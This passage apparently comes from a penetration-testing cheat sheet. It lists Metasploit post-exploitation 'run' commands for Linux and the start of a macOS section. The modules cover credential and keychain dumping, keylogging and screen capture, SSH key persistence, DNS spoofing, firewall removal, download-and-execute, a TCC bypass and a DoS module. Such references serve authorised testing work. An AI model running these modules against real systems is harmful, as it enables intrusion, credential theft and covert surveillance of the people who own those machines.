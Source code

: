 run post/linux/busybox/set_dmz

run post/linux/gather/enum_network

run post/linux/gather/pptpd_chap_secrets

run post/linux/busybox/set_dns

run post/linux/gather/enum_protections

run post/linux/gather/tor_hiddenservices

run post/linux/busybox/smb_share_root

run post/linux/gather/enum_psk

run post/linux/manage/dns_spoofing

run post/linux/busybox/wget_exec

run post/linux/gather/enum_system

run post/linux/manage/download_exec

run post/linux/dos/xen_420_dos

run post/linux/manage/geutebruck_post_exp

run post/linux/gather/checkcontainer

run post/linux/gather/gnome_commander_creds

run post/linux/manage/iptables_removal

run post/linux/gather/checkvm

run post/linux/gather/gnome_keyring_dump

run post/linux/gather/ecryptfs_creds

run post/linux/gather/haserl_read

run post/linux/manage/sshkey_persistence

#### 2.3.5 - OSX Modules

run post/osx/admin/say

run post/osx/gather/enum_chicken_vnc_profile

run post/osx/gather/safari_lastsession

run post/osx/capture/keylog_recorder

run post/osx/gather/enum_colloquy

run post/osx/gather/vnc_password_osx

run post/osx/capture/screen

run post/osx/gather/enum_keychain

run post/osx/manage/mount_share

run post/osx/escalate/tccbypass
